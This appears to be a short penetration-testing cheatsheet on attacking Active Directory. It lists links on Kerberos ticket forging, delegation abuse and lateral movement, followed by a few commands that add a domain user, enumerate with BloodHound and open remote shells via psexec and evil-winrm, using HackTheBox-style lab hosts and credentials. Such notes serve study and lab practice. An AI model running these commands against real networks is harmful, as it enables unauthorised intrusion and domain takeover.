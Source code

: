 [Windows and AD cheatsheet by command WADComs](https://wadcoms.github.io/)

[Attacking AD - Deep Dive w/ thorough notes](https://zer1t0.gitlab.io/posts/attacking_ad/)

[Abusing Active Directory ACLs and ACEs](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)

[PowerView Cheatsheet](https://hackersinterview.com/oscp/oscp-cheatsheet-powerview-commands/)

[AD Lateral Movement](https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/)

[Silver Ticket AD](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#available-services)

[Domain Escalation Resource Based Constrained Delegation](https://www.hackingarticles.in/domain-escalation-resource-based-constrained-delegation/)

[Active Directory Post Exploitation Methodology](https://cr0mll.github.io/cyberclopaedia/Post%20Exploitation/Active%20Directory%20(AD)/index.html)

[Active Directory Kerberos Delegation Walkthroughs](https://www.guidepointsecurity.com/blog/delegating-like-a-boss-abusing-kerberos-delegation-in-active-directory/)

[Resource Based Delegation Active Directory](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd)

[Active Directory detailed steps and cheatsheets](https://www.thehacker.recipes/ad/recon)

[Kerberos Pass the Ticket PTT](https://www.thehacker.recipes/ad/movement/kerberos/ptt)​

[Silver and Gold Tickets - Forged Kerberos ticket](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets#bronze-bit-cve-2020-17049)

[Kerberos cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

[Detailed guide for Rubeus](https://www.hackingarticles.in/a-detailed-guide-on-rubeus/)

[Kerberos and Impacket cheatsheet](https://cheatsheet.haax.fr/windows-systems/exploitation/kerberos/)

### Add user to domain 
`net user hacker password /add /domain` 

### Review group info 
`net group "Exchange Windows Permissions"` 

### Bloodhound python from kali
`bloodhound-python -d active.htb -u SVC_TGS -p 'GPPstillStandingStrong2k18' -gc dc.active.htb -c all -ns 10.10.10.100` 

### Get shell with PSexec 
`impacket-psexec active.htb/administrator@10.10.10.100` 
**password will prompt**

### Get shell with Evil-winrm
`evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice` 
